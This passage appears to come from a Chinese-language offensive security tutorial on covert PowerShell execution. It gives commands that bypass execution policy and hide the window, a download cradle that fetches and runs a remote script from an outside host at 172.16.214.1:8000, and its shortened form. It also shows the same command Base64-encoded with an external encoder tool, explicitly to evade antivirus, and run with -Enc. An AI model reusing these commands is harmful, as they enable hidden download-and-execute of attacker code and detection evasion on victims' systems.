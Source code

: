 





```none
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile -File t.ps1
```

### 下载远程脚本绕过权限并隐藏执行







```none
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"
```

或者简写







```none
PowerShell.exe -Exec Bypass -W Hidden -NoLogo -NonI -NoP "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"
```

### 利用 Base64 对命令进行编码

使用 Base64 进行编码主要是为了混淆代码以避免被杀毒软件查杀，经过尝试这里直接使用 Base64 编码是不行的，可以使用 Github 上的一个编码工具，工具下载地址：

https://raw.githubusercontent.com/darkoperator/powershell_scripts/master/ps_encoder.py

下载好后，需要先将要执行的命令保存到文本文件中，这里保存到了 tmp.txt 文本中，之后执行 `python ps_encoder.py -s tmp.txt` 即可







```none
>cat tmp.txtIEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')>python ps_encoder.py -s tmp.txtSQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA
```

使用 –Enc 指定 Base64 编码内容







```none
PowerShell.exe -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA
```
